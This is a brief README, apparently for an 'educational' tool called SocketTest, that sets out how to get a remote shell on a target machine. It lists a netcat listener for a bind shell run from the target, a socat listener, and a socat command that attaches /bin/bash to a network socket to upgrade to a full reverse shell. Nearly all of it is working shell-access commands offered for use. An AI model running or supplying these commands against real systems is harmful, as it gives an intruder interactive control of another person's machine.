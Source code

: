 # SocketTest
Connecting to local pcs on a network.
For educational purposes.

# Start a server
nc -nlvp 1337 (for our custom bind shell)
# Start our client connection from target
./SocketTest -> Netcat Bind Shell

# Start a socat server (easier to upgrade to full reverse shell)
socat -d -d TCP4-LISTEN:9001 STDOUT

# Send this using our netcat bind
socat TCP4:127.0.0.1:9001 EXEC:/bin/bash